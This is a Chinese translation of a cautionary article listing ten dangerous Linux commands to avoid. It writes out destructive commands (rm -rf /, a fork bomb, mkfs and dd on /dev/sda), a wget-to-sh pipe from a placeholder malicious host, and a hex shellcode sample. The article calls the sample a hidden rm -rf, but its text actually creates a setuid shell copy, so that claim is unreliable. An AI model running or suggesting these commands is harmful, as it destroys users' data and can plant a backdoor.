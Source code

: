 ```yaml
---
author: ''
categories: 技术
comments_data: []
count:
  commentnum: 0
  favtimes: 3
  likes: 1
  sharetimes: 0
  viewnum: 34462
date: '2013-12-07 10:10:00'
editorchoice: false
excerpt: Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对Linux或linux
  命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。 ...
fromurl: ''
id: 2341
islctt: true
largepic: /data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg
url: /article-2341-1.html
pic: /data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg.thumb.jpg
related: []
reviewer: ''
selector: ''
summary: Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对Linux或linux
  命令行的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。 ...
tags:
- Linux
- 危险
- 命令
thumb: false
title: 永远不要在Linux执行的10个最危险的命令
titlepic: false
translator: Luoxcat
updated: '2013-12-07 10:10:00'
---
```


Linux命令行佷有用、很高效，也很有趣，但有时候也很危险，尤其是在你不确定你自己在正在做什么时候。这篇文章并不打算引来你对**Linux**或**linux 命令行**的愤怒。我们只是想让你意识到在你运行某些命令时应该三思而后行。（译注：当然，以下命令通常都是在root权限下才能将愚蠢发挥到无可救药；在普通用户身份下，破坏的只是自己的一亩三分地。）


![](/data/attachment/album/201312/07/100744lmgomq4g44wwv7mm.jpg)


### 1. rm -rf 命令


**rm -rf**命令是删除文件夹及其内容最快的方式之一。仅仅一丁点的敲错或无知都可能导致不可恢复的系统崩坏。下列是一些**rm 命令**的选项。


* **rm**　命令在Linux下通常用来删除文件。
* **rm -r** 命令递归的删除文件夹，甚至是空的文件夹。（译注：个人认为此处应该是说错了，从常识看，应该是“甚至是非空的文件夹”）
* **rm -f** 命令能不经过询问直接删除‘只读文件’。（译注：Linux下删除文件并不在乎该文件是否是只读的，而只是在意其父目录是否有写权限。所以，-f这个参数只是表示不必一个个删除确认，而是一律悄悄删除。另外，原始的rm命令其实也是没有删除提示的，只是一般的发行版都会将rm通过别名的方式增加-i参数来要求删除确认，而-f则抑制了这个提示。）
* **rm -rf /** : 强制删除根目录下所有东东。（就是说删除完毕后，什么也没有了。。。）
* rm -rf \*:　强制删除当前目录的所有文件。
* **rm -rf .** : 强制删除当前文件夹及其子文件夹。


从现在起，当你要执行**rm -rf**命令时请留心一点。我们可以在“**.bashrc**”文件对‘**rm**‘命令创建**rm -i**的别名，来预防用 ‘**rm**‘命令删除文件时的事故，它会要求你确认每一个删除请求。（译注：大多数发行版已经这样做了，如果还没有，请这样做，并在使用-f参数前一定考虑好你在做什么！译者本人有着血泪的教训啊。）


### 2. :(){:|:&};: 命令


这就是个**fork 炸弹**的实例。具体操作是通过定义一个名为 ‘:‘的函数，它会调用自己两次，一次在前台另一次运行在后台。它会反复的执行下去直到系统崩溃。



```
:(){:|:&};:

```

哦？你确认你要试试么？千万别在公司正式的服务器上实验啊~~


### 3. 命令　> /dev/sda


上列命令会将某个‘**命令**‘的输出写到块设备**/dev/sda**中。该操作会将在块设备中的所有数据块替换为命令写入的原始数据，从而导致整个块设备的数据丢失。


### 4. mv 文件夹 /dev/null


这个命令会移动某个‘**文件夹**‘到**/dev/null**。在Linux中 **/dev/null** 或 **null** 设备是一个特殊的文件，所有写入它的数据都会被清除，然后返回写操作成功。（译注：这就是黑洞啊。当然，要说明的是，通过将文件夹移动到黑洞，并不能阻止数据恢复软件的救赎，所以，真正的彻底毁灭，需要采用专用的软件或者手法来完成——我知道你肯定有些东西想删除得干干净净的。）



```
# mv /home/user/* /dev/null

```

上列命令会将**User**目录所有内容移动到**/dev/null**，这意味着所有东西都被‘卷入’**黑洞　(null)**之中。


### 5. wget http://malicious\_source -O- | sh


上列命令会从一个（也许是）恶意源下载一个脚本并执行。Ｗget命令会下载这个脚本，而**sh**会（无条件的）执行下载下来的脚本。


**注意**: 你应该时刻注意你下载包或脚本的源。只能使用那些从可信任的源中下载脚本/程序。（译注：所以，你真的知道你在做什么吗？当遇到这种需要是，我的做法是，先wget下来，然后我去读一读其中到底写了些什么，然后考虑是否执行。）


### 6. mkfs.ext3 /dev/sda


上列命令会格式化块设备‘**sda**’，你无疑知道在执行上列命令后你的块设备(**硬盘驱动器**)会被格式化，**崭新的!**没有任何数据，直接让你的系统达到不可恢复的阶段。（译注：通常不会直接使用/dev/sda这样的设备，除非是作为raw设备使用，一般都需要将sda分成类似sda1、sda2这样的分区后才使用。当然，无论你使用sda还是sda1，这样对块设备或分区进行mkfs都是毁灭性的，上面的数据都会被蒸发了。）


### 7. > file


上列命令常用来清空文件内容（译注：通常也用于记录命令输出。不过请在执行前，确认输出的文件是空的或者还不存在，否则原来的文件可真是恢复不了了——连数据恢复软件都未必能帮助你了。另外，我想你可能真正想用的是“>>”，即累加新的输出到文件，而不是刷新那个文件。）。如果用上列执行时输入错误或无知的输入类似 “> **xt.conf**”　的命令会覆盖配置文件或其他任何的系统配置文件。


### **8. ^foo^bar**


这个命令在我们[十个鲜为人知的 Linux 命令 - Part 3](http://linux.cn/article-2284-1.html)中描述过，用来编辑先前运行的命令而无需重打整个命令。但当用**<sup> foo <sup>  bar </sup></sup>**命令时如果你没有彻底检查改变原始命令的风险，这可能导致真正的麻烦。（译注：事实上，这种小技巧是译者认为的，少数史前时代遗留下来的无用而有害的“黑客”技巧。）


### 9. dd if=/dev/random of=/dev/sda


上列命令会向块设备**sda**写入随机的垃圾文件从而擦出数据。当然！你的系统可能陷入混乱和不可恢复的状态。（译注：记得上面说过mv到黑洞并不能彻底删除数据么？那么这个命令就是给了你一个彻底删除的方法！当然为了保险起见，你可以覆写多次。）


### 10. 隐藏命令


下面的命令其实就是上面第一个命令 (**rm -rf**)。这里的代码是隐藏在**十六进制**里的,一个无知的用户可能就会被愚弄。在终端里运行下面命令可能会擦除你的**根**分区。


这个命令表明通常真正的危险是隐藏的，不会被轻易的检测到。你必须时刻留心你在做什么结果会怎样。不要编译／运行从未知来源的代码。



```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68″
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99″
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7″
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56″
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31″
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69″
“\x6e\x2f\x73\x68\x00\x2d\x63\x00″
“cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;”;

```

**注意**: 不要在你的或你的同学或学校的电脑里的**Linux**终端或Shell执行以上的任何一个命令。如果你想测试它们，请在虚拟机上运行。任何不和谐或数据丢失，由于运行上面的命令导致你的系统崩溃，文章**作者**和**Tecmint**概不负责。（译注：译者和转载网站也不负责~！）


今天就到此为止吧，我会很快回来这里，同时带上另一篇你们喜欢的文章。到那时请继续关注和访问**Tecmint**。如果你知道任何其他**危险的Linux命令**，也想添加到我们的列表中，请通过评论留言给我们同时也别忘了留下你的宝贵意见。




---


via: <http://www.tecmint.com/10-most-dangerous-commands-you-should-never-execute-on-linux/>


译者：[Luoxcat](https://github.com/Luoxcat) 校对：[wxy](https://github.com/wxy)


本文由 [LCTT](https://github.com/LCTT/TranslateProject) 原创翻译，[Linux中国](http://linux.cn/) 荣誉推出